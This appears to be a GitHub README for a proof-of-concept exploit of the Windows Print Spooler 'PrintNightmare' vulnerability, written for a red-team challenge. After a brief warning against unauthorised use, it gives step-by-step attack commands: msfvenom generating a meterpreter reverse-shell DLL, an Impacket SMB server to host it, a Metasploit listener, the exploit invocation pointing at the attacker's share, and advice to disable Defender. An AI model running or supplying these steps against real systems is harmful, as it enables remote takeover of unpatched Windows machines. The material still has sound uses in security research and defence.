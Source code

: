 # CNightmare - CVE-2021-34527 POC

### Warning

Obviously, this exploit has long been patched, however, I have no doubt there would still be systems around that are vulnerable to this kind of attack. Therefore, under no circumstances is this exploit to be used on a system which the individual running the exploit either does not own or does not have explicit permission to do so.

### Description

As the title suggests, this is a POC which exploits the infamous PrintNightmare vulnerability in Microsoft Windows Print Spooler service. At present, I have implemented the ability to run this on a remote host so technically it only exploits CVE-2021-1675. 

This is by no means the best POC and it was completed as part of [eversinc33](https://github.com/eversinc33) Red Team Advent of Code. 

### Compile

Easiest way would probably just be to open it up in Visual Studio and compile it that way. Alternatively, you could use GCC.

### Usage

First Create a malicious DLL file with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your-IP> LPORT=4444 -f dll -o shell.dll
```

Then move it to `/tmp/Data/`, then use **Impacket** to serve a SMB server:
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /tmp/Data/
```

Open metasploit and start a listener:
```bash
msfconsole
use exploit/mutli/handler
set lhost <your-IP>
set payload windows/x64/meterpreter/reverse_tcp
run
```

From there, you can now transfer the exploit to your target system and run it like so:
```powershell
.\CNightmare-CVE-2021-34527-POC.exe \\192.168.158.138\compdata\shell.dll 'C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL'
```
Ensure you have the actual driver path for you system, which can be found by browsing to `C:\Windows\System32\DriverStore\FileRepository\` and go from there.

NOTE: You may have to run it a few times to get a callback. Also you will likely need to turn Defender off as it will probably detect meterpreter. Defender was a bit hit and miss in my testing.

### Testing System

I pulled an image from here [tb.rg-adguard.net.](https://tb.rg-adguard.net/dump.php?seach=windows+1809&str=25&lang=en-US)